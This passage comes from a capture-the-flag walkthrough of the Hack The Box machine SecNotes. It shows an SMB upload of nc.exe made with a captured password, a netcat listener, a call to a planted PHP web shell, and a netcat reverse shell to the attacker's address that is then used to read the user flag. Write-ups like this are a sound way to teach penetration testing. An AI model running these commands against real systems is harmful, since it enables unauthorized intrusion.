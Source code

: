 Upload nc.exe to new-site folder:

```bash
smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put /usr/share/windows-resources/binaries/nc.exe nc.exe'
```

```
┌──(kali㉿kali)-[~/Desktop/Hackthebox/SecNotes]
└─$ smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put /usr/share/windows-resources/binaries/nc.exe nc.exe'
putting file /usr/share/windows-resources/binaries/nc.exe as \nc.exe (37.7 kb/s) (average 37.7 kb/s)

```

Build up a new listner 443:

```bash
nc -lnvp 443
```

Next, invoke web shell again (optional):

```bash
curl http://10.10.10.97:8808/shell.php
```

In web shell command run nc.exe to connect 443 port of lhost:

```bash
nc.exe -e cmd.exe 10.10.14.8 443
```

```
┌──(kali㉿kali)-[~/Desktop/Hackthebox/SecNotes]
└─$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.97] 55020
nc.exe -e cmd.exe 10.10.14.8 443

```

![[secnotes-18.png]]

Excellent! we get interactive shell. we will check and capture the user flag.

```
C:\Users\tyler\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1E7B-9B76

 Directory of C:\Users\tyler\Desktop

08/19/2018  03:51 PM    <DIR>          .
08/19/2018  03:51 PM    <DIR>          ..
06/22/2018  03:09 AM             1,293 bash.lnk
08/02/2021  03:32 AM             1,210 Command Prompt.lnk
04/11/2018  04:34 PM               407 File Explorer.lnk
06/21/2018  05:50 PM             1,417 Microsoft Edge.lnk
06/21/2018  09:17 AM             1,110 Notepad++.lnk
10/23/2022  01:01 AM                34 user.txt
08/19/2018  10:59 AM             2,494 Windows PowerShell.lnk
               7 File(s)          7,965 bytes
               2 Dir(s)  13,895,659,520 bytes free

C:\Users\tyler\Desktop>type user.txt
type user.txt
79d0a3d5b1faafea8e465dc695167f5c

```